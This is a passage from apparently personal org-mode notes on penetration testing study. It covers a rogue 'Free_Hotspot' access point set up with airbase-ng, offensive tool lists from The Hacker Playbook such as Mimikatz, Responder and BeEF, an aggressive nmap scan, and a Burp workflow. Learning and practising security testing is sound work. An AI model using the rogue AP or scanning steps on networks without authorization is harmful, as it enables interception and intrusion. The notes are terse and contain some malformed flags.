option broadcast-address 192.168.2.255;
option routers 192.168.2.1;
option domain-name-servers 208.67.222.222;
range 192.168.2.51 192.168.2.100;
}
#+END_SRC

- setting up AP
#+BEGIN_SRC sh
airbase-ng --essid "Free_Hotspot" -c 6 wlan0mon
#+END_SRC

*** Metasploit Framework
synflood module by default spoofs the source ip address
*** PWNing system with msf

** Introduction to Packet Analysis
*** [[https://www.youtube.com/watch?v%3DvisrNiKIP3E&t%3D6s][Introduction to TCP/IP Packet Structure]]

* Books
** [[file://home/crito/Documents/Security/The-Hacker-Playbook-Practical-Guide-To-Penetration-Testing-2014.pdf][The Hacker Playbok - Practical Guide to Penetration Testing]]
*** Pregame and Before the Snap
- setting up a baseline
  - once you have it ready to run take a snapshot of the vm 

- recommeded distro
  - pentoo

***** high level tool list (Linux)
  - windows credential editor 
  - smbexec 
  - Veil 
  - Discover scripts 
  - Mimikatz 
  - Burp 
  - PeepingTom
  - Powersploit
  - BeEF 
  - Responder
  - Firefox
    - web dev add-on
    - foxy proxy
    - Tamper data
    - User Agent Switch
      
***** high level tool list (windows)
  - HxD
  - Evade
  - Hyperion
  - Cain and Abel
  - Firefox
    - web dev add-on
    - foxy proxy
    - Tamper data
    - User Agent Switch
  - Evil Foca
    
**** Passive Scan 
1. discover sscripts
   - this tool leveridges all the osint tools in one framework
   
2. recon-ng
 
**** Scanning Process
  1. scan using nexpose/nessus (Loud only for auth)
  2. scan with nmap
  3. scan with custom nmap
  4. screen capture with peepingtom

- nmap banner grab
#+BEGIN_SRC sh
nmap --script /usr/share/nmap/scripts/banner-plus.nse --min-rate=400 --min-parallelism=512 -p1-65535 -n -Pn -Ps -oA 192.168.56.102
#+END_SRC
--min-rate=400 - guarantee that the scan will finish after set time
-n - disable dns resolution
-Pn - disable ping

**** Web App Scanning
Tools
  - zap
  - WebScarab
  - Nikto
  - w3af

- Using Burp
 The process  
  - Spider/Discovery/Scanning
  - Scanning with web app scanner
  - Manual parameter injection
  - Session token analysis
    
1. configure network proxy
2. start burp suite
3. spider through the app
4. discover content
5. run the active scanner
6. exploit
   
*** The Drive
- Metasploit

*** The Throw
- SQL Injections
  - SQLmap
  - SQLninja
    
* Links

